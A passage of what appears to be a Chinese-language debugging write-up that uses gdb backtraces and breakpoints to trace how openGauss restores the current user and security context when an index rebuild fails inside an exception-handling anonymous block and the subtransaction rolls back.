#20 0x000055e1a2529f52 in audit_process_utility (parsetree=0x7ff846d28dc0, query_string=0x7ff846e66050 "begin\nalter index user_admin.i_t5 unusable;\ninsert into user_admin.t5 values (1);\nalter index user_admin.i_t5 rebuild; --这里会报错，隐式rollback\nexception when others then\nraise notice '%',sqlerrm;\nraise notice '%',current_user;\nend;", params=<optimized out>, is_top_level=<optimized out>, dest=<optimized out>, sent_to_remote=<optimized out>, completion_tag=0x7ff854fba260 "",
is_ctas=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/security/audit/security_auditfuncs.cpp:1512
#21 0x000055e1a1fc571d in sqlcmd_process_utility (parse_tree=0x7ff846d28dc0, query_string=0x7ff846e66050 "begin\nalter index user_admin.i_t5 unusable;\ninsert into user_admin.t5 values (1);\nalter index user_admin.i_t5 rebuild; --这里会报错，隐式rollback\nexception when others then\nraise notice '%',sqlerrm;\nraise notice '%',current_user;\nend;", params=0x0, is_top_level=<optimized out>, dest=<optimized out>, sent_to_remote=<optimized out>, completion_tag=0x7ff854fba260 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/utility.cpp:1974
#22 0x000055e1a1fa683f in PortalRunUtility (portal=0x7ff7a0b1a050, utilityStmt=0x7ff846d28dc0, isTopLevel=true, dest=0x7ff846e66370, completionTag=0x7ff854fba260 "") at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/pquery.cpp:2140
#23 0x000055e1a1fa80be in PortalRunMulti (portal=0x7ff7a0b1a050, isTopLevel=true, dest=0x7ff846e66370, altdest=0x7ff846e66370, completionTag=0x7ff854fba260 "", snapshot=0x0, bii_state=0x0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/pquery.cpp:2326
#24 0x000055e1a1fac2dc in PortalRun (portal=0x7ff7a0b1a050, count=9223372036854775807, isTopLevel=true, dest=0x7ff846e66370, altdest=0x7ff846e66370, completionTag=0x7ff854fba260 "", snapshot=0x0, bii_state=0x0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/pquery.cpp:1501
#25 0x000055e1a1f92276 in exec_simple_query (query_string=<optimized out>, msg=0x7ff854fba530, messageType=QUERY_MESSAGE) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/postgres.cpp:3513
#26 0x000055e1a1f9ee38 in gs_process_command (firstchar=<optimized out>, input_message=0x7ff854fba530, send_ready_for_query=0x7ff854fba526) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/postgres.cpp:11743
#27 0x000055e1a1fa49c0 in PostgresMain (argc=<optimized out>, argv=0x7ff84bc75b20, dbname=<optimized out>, username=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/postgres.cpp:11313
#28 0x000055e1a1f282df in backend_run (port=0x7ff854fba890) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/postmaster/postmaster.cpp:12482
#29 0x000055e1a1f671b0 in gauss_db_worker_thread_main<(knl_thread_role)2> (arg=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/postmaster/postmaster.cpp:19086
#30 0x000055e1a1f2839a in internal_thread_func (args=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/postmaster/postmaster.cpp:20196
#31 0x00007ff9cefa2f1b in ?? () from /usr/lib64/libpthread.so.0
#32 0x00007ff9ceeda320 in clone () from /usr/lib64/libc.so.6
(gdb)
可以看到还原当前用户的操作是在事务发生异常，进行回滚释放时进行的回滚。
参考openGauss的代码
\openGauss-server\src\gausskernel\storage\access\transam\xact.cpp:6624
void AbortSubTransaction(bool STP_rollback)
...
SetUserIdAndSecContext(s->prevUser, s->prevSecContext);
至于为什么会有SPI_savepoint_rollbackAndRelease，这正是匿名块中有exception的表现，使用exception时会自动对该匿名块进行savepoint开启子事务，出错回滚也只会回滚这个匿名块里的操作。
再来看看问题场景中，xact_event_action_abort_subtrans里的情况
(gdb) b elog.cpp:238 if (elevel > 19)
dle SIGPIPE nostop
set pagi off
set print elements 300Breakpoint 1 at 0x55e1a13fab25: file /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/error/elog.cpp, line 238.
(gdb) handle SIGUSR1 nostop noprint
Signal Stop Print Pass to program Description
SIGUSR1 No No Yes User defined signal 1
(gdb) handle SIGUSR2 nostop noprint
Signal Stop Print Pass to program Description
SIGUSR2 No No Yes User defined signal 2
(gdb) handle SIGPIPE nostop
Signal Stop Print Pass to program Description
SIGPIPE No Yes Yes Broken pipe
(gdb) set pagi off
(gdb) set print elements 300
(gdb) b xact_event_action_abort_subtrans
Breakpoint 2 at 0x55e1a2e6a520: file /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp, line 3574.
(gdb) b build_index
reindex_index
b miscinit.cpp:738Breakpoint 3 at 0x55e1a0a50a20: file /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/catalog/index.cpp, line 5779.
(gdb) b reindex_index
Breakpoint 4 at 0x55e1a0a5f230: file /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/catalog/index.cpp, line 9833.
(gdb) b miscinit.cpp:738
Breakpoint 5 at 0x55e1a1441475: miscinit.cpp:738. (2 locations)
(gdb) c
Continuing.
[New LWP 108985]
[LWP 108985 exited]
[New LWP 108986]
[New LWP 108987]
[LWP 108986 exited]
[New LWP 108988]
[LWP 108988 exited]
[Switching to LWP 108987]
Thread 72 "AVCworker" hit Breakpoint 5, set_userid_and_sec_context (userid=16728, sec_context=2) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp:738
738 /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp: No such file or directory.
(gdb) c
Continuing.
Thread 72 "AVCworker" hit Breakpoint 5, set_userid_and_sec_context (userid=10, sec_context=0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp:738
738 in /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp
(gdb) c
Continuing.
[LWP 108987 exited]
[New LWP 108990]
[LWP 108990 exited]
[New LWP 108991]
[LWP 108991 exited]
[New LWP 108992]
[New LWP 108993]
[LWP 108992 exited]
[LWP 108993 exited]
[New LWP 108994]
[New LWP 108995]
[LWP 108994 exited]
[New LWP 108996]
[LWP 108995 exited]
[LWP 108996 exited]
[New LWP 108998]
[LWP 108998 exited]
[New LWP 108999]
[LWP 108999 exited]
[New LWP 109000]
[LWP 109000 exited]
[New LWP 109001]
[LWP 109001 exited]
[New LWP 109004]
[LWP 109004 exited]
[New LWP 109005]
[LWP 109005 exited]
[New LWP 109006]
[LWP 109006 exited]
[New LWP 109008]
[LWP 109008 exited]
[New LWP 109009]
[LWP 109009 exited]
[New LWP 109010]
[LWP 109010 exited]
[New LWP 109012]
[LWP 109012 exited]
[New LWP 109013]
[LWP 109013 exited]
[New LWP 109014]
[LWP 109014 exited]
[New LWP 109015]
[LWP 109015 exited]
[Switching to LWP 92744]
Thread 22 "TPLworker" hit Breakpoint 4, 0x000055e1a0a5f230 in reindex_index (index_id=<optimized out>, index_part_id=<optimized out>, skip_constraint_checks=<optimized out>, mem_info=<optimized out>, db_wide=<optimized out>, base_desc=<optimized out>, is_trunc_gtt=false) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/catalog/index.cpp:9833
9833 /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/catalog/index.cpp: No such file or directory.
(gdb) c
Continuing.
[New LWP 109020]
Thread 22 "TPLworker" hit Breakpoint 5, set_userid_and_sec_context (userid=143083, sec_context=2) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp:738
738 /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp: No such file or directory.
(gdb) bt
#0 set_userid_and_sec_context (userid=143083, sec_context=2) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp:738
#1 0x000055e1a0a5f329 in reindex_index (index_id=143097, index_part_id=0, skip_constraint_checks=false, mem_info=0x7ff8489bf8dc, db_wide=false, base_desc=0x0, is_trunc_gtt=false) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/catalog/index.cpp:7071
#2 0x000055e1a1c2c4a3 in sqlcmd_reindex_index (stmt=0x7ff8489bf8c0, indexRelation=<optimized out>, partition_name=<optimized out>, mem_info=0x7ff8489bf8dc, concurrent=false) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/commands/indexcmds.cpp:4298
#3 0x000055e1a1fb94aa in sqlcmd_reindex_command (is_top_level=<optimized out>, stmt=0x7ff8489bf8c0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/utility.cpp:3230
#4 sqlcmd_standard_process_utility (parse_tree=0x7ff8489bf8c0, query_string=0x7ff84cb69e48 "alter index user_admin.i_t5 rebuild", params=0x0, is_top_level=<optimized out>, dest=0x7ff9ca6bf020, sent_to_remote=<optimized out>, completion_tag=0x7ff85a1450d0 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/utility.cpp:9366
#5 0x00007ff9cebd6759 in gsaudit_ProcessUtility_hook (parsetree=0x7ff8489bf8c0, queryString=0x7ff84cb69e48 "alter index user_admin.i_t5 rebuild", params=0x0, isTopLevel=<optimized out>, dest=0x7ff9ca6bf020, sentToRemote=<optimized out>, completionTag=0x7ff85a1450d0 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/security/security_plugin/security_policy_plugin.cpp:856
#6 0x000055e1a2529f52 in audit_process_utility (parsetree=0x7ff8489bf8c0, query_string=0x7ff84cb69e48 "alter index user_admin.i_t5 rebuild", params=<optimized out>, is_top_level=<optimized out>, dest=<optimized out>, sent_to_remote=<optimized out>, completion_tag=0x7ff85a1450d0 "", is_ctas=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/security/audit/security_auditfuncs.cpp:1512
#7 0x000055e1a1fc571d in sqlcmd_process_utility (parse_tree=0x7ff8489bf8c0, query_string=0x7ff84cb69e48 "alter index user_admin.i_t5 rebuild", params=0x0, is_top_level=<optimized out>, dest=<optimized out>, sent_to_remote=<optimized out>, completion_tag=0x7ff85a1450d0 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/utility.cpp:1974
#8 0x000055e1a2159bbc in spi_execute_plan0 (plan=0x7ff8489bf450, param_list=0x0, snapshot=0x0, crosscheck_snapshot=0x0, read_only=false, fire_triggers=true, tcount=0, from_lock=false, dfx_state=0x0) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/spi/spi.cpp:2243
#9 0x000055e1a215aa53 in spi_execute_plan (plan=0x7ff8489bf450, param_list=0x0, snapshot=0x0, crosscheck_snapshot=0x0, read_only=false, fire_triggers=true, tcount=0, from_lock=false, dfx_state=0x0) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/spi/spi.cpp:2535
#10 0x000055e1a215c07a in SPI_execute_plan_with_paramlist (plan=0x7ff8489bf450, params=0x0, read_only=<optimized out>, tcount=0) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/spi/spi.cpp:502
#11 0x000055e1a161af22 in gsplsql_exec_stmt_execsql (estate=0x7ff84cbf6820, stmt=0x7ff84cbf1dc0, dfx_state=0x7ff848911550, is_open_satetement=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_sql.cpp:972
#12 0x000055e1a1602144 in gsplsql_exec_stmt (estate=0x7ff84cbf6820, stmt=0x7ff84cbf1dc0, dfx_state=0x7ff848911550) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:712
#13 0x000055e1a1602682 in gsplsql_exec_stmts (estate=0x7ff84cbf6820, stmts=0x7ff84cbf1568, dfx_state=0x7ff84cbf7120) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:856
#14 0x000055e1a1600ec4 in gsplsql_exec_stmt_block (estate=0x7ff84cbf6820, block=0x7ff84cbf2ad8, dfx_state=0x7ff84cbf7120) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:295
#15 0x000055e1a1602452 in gsplsql_exec_stmt (estate=0x7ff84cbf6820, stmt=0x7ff84cbf2ad8, dfx_state=0x7ff84cbf7120) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:648
#16 0x000055e1a1602682 in gsplsql_exec_stmts (estate=0x7ff84cbf6820, stmts=0x7ff84cbf0708, dfx_state=0x7ff84cbf6d00) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:856
#17 0x000055e1a1601963 in gsplsql_exec_stmt_block (estate=0x7ff84cbf6820, block=0x7ff84cbf2e10, dfx_state=0x7ff84cbf6d00) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:431
#18 0x000055e1a37daec5 in gsplsql_exec_function (func=0x7ff84cbe8170, fcinfo=0x7ff85a146230, dynexec_anonymous_block=false, func_runtime_state=0x0, isDstoreAutonomous=false) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/plpgsql/src/pl_exec.cpp:698
#19 0x000055e1a37ecbea in plpgsql_inline_handler (fcinfo=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/plpgsql/src/pl_handler.cpp:1124
#20 0x000055e1a142d9c1 in OidFunctionCall2Coll (function_id=<optimized out>, collation=0, arg1=140704346781776, arg2=0, is_null=0x0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/fmgr/fmgr.cpp:2355
#21 0x000055e1a1bdfb39 in sqlcmd_execute_do_stmt (stmt=0x7ff848998dc0, atomic=<optimized out>, is_pkg_anonymous_block=249) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/commands/functioncmds.cpp:4242
#22 0x000055e1a1fb927e in sqlcmd_standard_process_utility (parse_tree=0x7ff848998dc0, query_string=0x7ff84ccb0050 "begin\nalter index user_admin.i_t5 unusable;\ninsert into user_admin.t5 values (1);\nalter index user_admin.i_t5 rebuild; --这里会报错，隐式rollback\nexception when others then\nraise notice '%',sqlerrm;\nraise notice '%',current_user;\nend;", params=0x0, is_top_level=true, dest=0x7ff84ccb0370, sent_to_remote=<optimized out>, completion_tag=0x7ff85a14a260 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/utility.cpp:7283
#23 0x00007ff9cebd6759 in gsaudit_ProcessUtility_hook (parsetree=0x7ff848998dc0, queryString=0x7ff84ccb0050 "begin\nalter index user_admin.i_t5 unusable;\ninsert into user_admin.t5 values (1);\nalter index user_admin.i_t5 rebuild; --这里会报错，隐式rollback\nexception when others then\nraise notice '%',sqlerrm;\nraise notice '%',current_user;\nend;", params=0x0, isTopLevel=<optimized out>, dest=0x7ff84ccb0370, sentToRemote=<optimized out>, completionTag=0x7ff85a14a260 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/security/security_plugin/security_policy_plugin.cpp:856
#24 0x000055e1a2529f52 in audit_process_utility (parsetree=0x7ff848998dc0, query_string=0x7ff84ccb0050 "begin\nalter index user_admin.i_t5 unusable;\ninsert into user_admin.t5 values (1);\nalter index user_admin.i_t5 rebuild; --这里会报错，隐式rollback\nexception when others then\nraise notice '%',sqlerrm;\nraise notice '%',current_user;\nend;", params=<optimized out>, is_top_level=<optimized out>, dest=<optimized out>, sent_to_remote=<optimized out>, completion_tag=0x7ff85a14a260 "",
is_ctas=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/security/audit/security_auditfuncs.cpp:1512
#25 0x000055e1a1fc571d in sqlcmd_process_utility (parse_tree=0x7ff848998dc0, query_string=0x7ff84ccb0050 "begin\nalter index user_admin.i_t5 unusable;\ninsert into user_admin.t5 values (1);\nalter index user_admin.i_t5 rebuild; --这里会报错，隐式rollback\nexception when others then\nraise notice '%',sqlerrm;\nraise notice '%',current_user;\nend;", params=0x0, is_top_level=<optimized out>, dest=<optimized out>, sent_to_remote=<optimized out>, completion_tag=0x7ff85a14a260 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/utility.cpp:1974
#26 0x000055e1a1fa683f in PortalRunUtility (portal=0x7ff785af0050, utilityStmt=0x7ff848998dc0, isTopLevel=true, dest=0x7ff84ccb0370, completionTag=0x7ff85a14a260 "") at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/pquery.cpp:2140
#27 0x000055e1a1fa80be in PortalRunMulti (portal=0x7ff785af0050, isTopLevel=true, dest=0x7ff84ccb0370, altdest=0x7ff84ccb0370, completionTag=0x7ff85a14a260 "", snapshot=0x0, bii_state=0x0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/pquery.cpp:2326
#28 0x000055e1a1fac2dc in PortalRun (portal=0x7ff785af0050, count=9223372036854775807, isTopLevel=true, dest=0x7ff84ccb0370, altdest=0x7ff84ccb0370, completionTag=0x7ff85a14a260 "", snapshot=0x0, bii_state=0x0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/pquery.cpp:1501
#29 0x000055e1a1f92276 in exec_simple_query (query_string=<optimized out>, msg=0x7ff85a14a530, messageType=QUERY_MESSAGE) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/postgres.cpp:3513
#30 0x000055e1a1f9ee38 in gs_process_command (firstchar=<optimized out>, input_message=0x7ff85a14a530, send_ready_for_query=0x7ff85a14a526) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/postgres.cpp:11743
#31 0x000055e1a1fa49c0 in PostgresMain (argc=<optimized out>, argv=0x7ff850c75b20, dbname=<optimized out>, username=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/postgres.cpp:11313
#32 0x000055e1a1f282df in backend_run (port=0x7ff85a14a890) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/postmaster/postmaster.cpp:12482
#33 0x000055e1a1f671b0 in gauss_db_worker_thread_main<(knl_thread_role)2> (arg=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/postmaster/postmaster.cpp:19086
#34 0x000055e1a1f2839a in internal_thread_func (args=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/postmaster/postmaster.cpp:20196
#35 0x00007ff9cefa2f1b in ?? () from /usr/lib64/libpthread.so.0
#36 0x00007ff9ceeda320 in clone () from /usr/lib64/libc.so.6
(gdb) c
Continuing.
Thread 22 "TPLworker" hit Breakpoint 3, 0x000055e1a0a50a20 in build_index (heap_relation=<optimized out>, heap_partition=<optimized out>, index_relation=<optimized out>, index_partition=<optimized out>, index_info=<optimized out>, is_primary=<optimized out>, isreindex=true, partition_type=INDEX_CREATE_NONE_PARTITION, parallel=true, is_trunc_gtt=false, snapshot=0x0) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/catalog/index.cpp:5779
5779 /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/catalog/index.cpp: No such file or directory.
(gdb) c
Continuing.
[New LWP 109029]
Thread 22 "TPLworker" hit Breakpoint 5, set_userid_and_sec_context (userid=143083, sec_context=2) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp:738
738 /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp: No such file or directory.
(gdb) bt
#0 set_userid_and_sec_context (userid=143083, sec_context=2) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp:738
#1 0x000055e1a0a50bb8 in build_index (heap_relation=0x7ff8456a9ec8, heap_partition=0x0, index_relation=0x7ff8456a9108, index_partition=0x0, index_info=0x7ff84c6a2580, is_primary=false, isreindex=true, partition_type=INDEX_CREATE_NONE_PARTITION, parallel=true, is_trunc_gtt=false, snapshot=0x0) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/catalog/index.cpp:3862
#2 0x000055e1a0a5f5e5 in reindex_index (index_id=143097, index_part_id=0, skip_constraint_checks=false, mem_info=0x7ff8489bf8dc, db_wide=false, base_desc=0x0, is_trunc_gtt=false) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/catalog/index.cpp:7233
#3 0x000055e1a1c2c4a3 in sqlcmd_reindex_index (stmt=0x7ff8489bf8c0, indexRelation=<optimized out>, partition_name=<optimized out>, mem_info=0x7ff8489bf8dc, concurrent=false) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/commands/indexcmds.cpp:4298
#4 0x000055e1a1fb94aa in sqlcmd_reindex_command (is_top_level=<optimized out>, stmt=0x7ff8489bf8c0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/utility.cpp:3230
#5 sqlcmd_standard_process_utility (parse_tree=0x7ff8489bf8c0, query_string=0x7ff84cb69e48 "alter index user_admin.i_t5 rebuild", params=0x0, is_top_level=<optimized out>, dest=0x7ff9ca6bf020, sent_to_remote=<optimized out>, completion_tag=0x7ff85a1450d0 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/utility.cpp:9366
#6 0x00007ff9cebd6759 in gsaudit_ProcessUtility_hook (parsetree=0x7ff8489bf8c0, queryString=0x7ff84cb69e48 "alter index user_admin.i_t5 rebuild", params=0x0, isTopLevel=<optimized out>, dest=0x7ff9ca6bf020, sentToRemote=<optimized out>, completionTag=0x7ff85a1450d0 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/security/security_plugin/security_policy_plugin.cpp:856
#7 0x000055e1a2529f52 in audit_process_utility (parsetree=0x7ff8489bf8c0, query_string=0x7ff84cb69e48 "alter index user_admin.i_t5 rebuild", params=<optimized out>, is_top_level=<optimized out>, dest=<optimized out>, sent_to_remote=<optimized out>, completion_tag=0x7ff85a1450d0 "", is_ctas=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/security/audit/security_auditfuncs.cpp:1512
#8 0x000055e1a1fc571d in sqlcmd_process_utility (parse_tree=0x7ff8489bf8c0, query_string=0x7ff84cb69e48 "alter index user_admin.i_t5 rebuild", params=0x0, is_top_level=<optimized out>, dest=<optimized out>, sent_to_remote=<optimized out>, completion_tag=0x7ff85a1450d0 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/utility.cpp:1974
#9 0x000055e1a2159bbc in spi_execute_plan0 (plan=0x7ff8489bf450, param_list=0x0, snapshot=0x0, crosscheck_snapshot=0x0, read_only=false, fire_triggers=true, tcount=0, from_lock=false, dfx_state=0x0) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/spi/spi.cpp:2243
#10 0x000055e1a215aa53 in spi_execute_plan (plan=0x7ff8489bf450, param_list=0x0, snapshot=0x0, crosscheck_snapshot=0x0, read_only=false, fire_triggers=true, tcount=0, from_lock=false, dfx_state=0x0) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/spi/spi.cpp:2535
#11 0x000055e1a215c07a in SPI_execute_plan_with_paramlist (plan=0x7ff8489bf450, params=0x0, read_only=<optimized out>, tcount=0) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/spi/spi.cpp:502
#12 0x000055e1a161af22 in gsplsql_exec_stmt_execsql (estate=0x7ff84cbf6820, stmt=0x7ff84cbf1dc0, dfx_state=0x7ff848911550, is_open_satetement=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_sql.cpp:972
#13 0x000055e1a1602144 in gsplsql_exec_stmt (estate=0x7ff84cbf6820, stmt=0x7ff84cbf1dc0, dfx_state=0x7ff848911550) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:712
#14 0x000055e1a1602682 in gsplsql_exec_stmts (estate=0x7ff84cbf6820, stmts=0x7ff84cbf1568, dfx_state=0x7ff84cbf7120) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:856
#15 0x000055e1a1600ec4 in gsplsql_exec_stmt_block (estate=0x7ff84cbf6820, block=0x7ff84cbf2ad8, dfx_state=0x7ff84cbf7120) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:295
#16 0x000055e1a1602452 in gsplsql_exec_stmt (estate=0x7ff84cbf6820, stmt=0x7ff84cbf2ad8, dfx_state=0x7ff84cbf7120) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:648
#17 0x000055e1a1602682 in gsplsql_exec_stmts (estate=0x7ff84cbf6820, stmts=0x7ff84cbf0708, dfx_state=0x7ff84cbf6d00) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:856
#18 0x000055e1a1601963 in gsplsql_exec_stmt_block (estate=0x7ff84cbf6820, block=0x7ff84cbf2e10, dfx_state=0x7ff84cbf6d00) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:431
#19 0x000055e1a37daec5 in gsplsql_exec_function (func=0x7ff84cbe8170, fcinfo=0x7ff85a146230, dynexec_anonymous_block=false, func_runtime_state=0x0, isDstoreAutonomous=false) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/plpgsql/src/pl_exec.cpp:698
#20 0x000055e1a37ecbea in plpgsql_inline_handler (fcinfo=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/plpgsql/src/pl_handler.cpp:1124
#21 0x000055e1a142d9c1 in OidFunctionCall2Coll (function_id=<optimized out>, collation=0, arg1=140704346781776, arg2=0, is_null=0x0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/fmgr/fmgr.cpp:2355
#22 0x000055e1a1bdfb39 in sqlcmd_execute_do_stmt (stmt=0x7ff848998dc0, atomic=<optimized out>, is_pkg_anonymous_block=249) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/commands/functioncmds.cpp:4242
#23 0x000055e1a1fb927e in sqlcmd_standard_process_utility (parse_tree=0x7ff848998dc0, query_string=0x7ff84ccb0050 "begin\nalter index user_admin.i_t5 unusable;\ninsert into user_admin.t5 values (1);\nalter index user_admin.i_t5 rebuild; --这里会报错，隐式rollback\nexception when others then\nraise notice '%',sqlerrm;\nraise notice '%',current_user;\nend;", params=0x0, is_top_level=true, dest=0x7ff84ccb0370, sent_to_remote=<optimized out>, completion_tag=0x7ff85a14a260 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/utility.cpp:7283
#24 0x00007ff9cebd6759 in gsaudit_ProcessUtility_hook (parsetree=0x7ff848998dc0, queryString=0x7ff84ccb0050 "begin\nalter index user_admin.i_t5 unusable;\ninsert into user_admin.t5 values (1);\nalter index user_admin.i_t5 rebuild; --这里会报错，隐式rollback\nexception when others then\nraise notice '%',sqlerrm;\nraise notice '%',current_user;\nend;", params=0x0, isTopLevel=<optimized out>, dest=0x7ff84ccb0370, sentToRemote=<optimized out>, completionTag=0x7ff85a14a260 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/security/security_plugin/security_policy_plugin.cpp:856
#25 0x000055e1a2529f52 in audit_process_utility (parsetree=0x7ff848998dc0, query_string=0x7ff84ccb0050 "begin\nalter index user_admin.i_t5 unusable;\ninsert into user_admin.t5 values (1);\nalter index user_admin.i_t5 rebuild; --这里会报错，隐式rollback\nexception when others then\nraise notice '%',sqlerrm;\nraise notice '%',current_user;\nend;", params=<optimized out>, is_top_level=<optimized out>, dest=<optimized out>, sent_to_remote=<optimized out>, completion_tag=0x7ff85a14a260 "",
is_ctas=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/security/audit/security_auditfuncs.cpp:1512
#26 0x000055e1a1fc571d in sqlcmd_process_utility (parse_tree=0x7ff848998dc0, query_string=0x7ff84ccb0050 "begin\nalter index user_admin.i_t5 unusable;\ninsert into user_admin.t5 values (1);\nalter index user_admin.i_t5 rebuild; --这里会报错，隐式rollback\nexception when others then\nraise notice '%',sqlerrm;\nraise notice '%',current_user;\nend;", params=0x0, is_top_level=<optimized out>, dest=<optimized out>, sent_to_remote=<optimized out>, completion_tag=0x7ff85a14a260 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/utility.cpp:1974
#27 0x000055e1a1fa683f in PortalRunUtility (portal=0x7ff785af0050, utilityStmt=0x7ff848998dc0, isTopLevel=true, dest=0x7ff84ccb0370, completionTag=0x7ff85a14a260 "") at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/pquery.cpp:2140
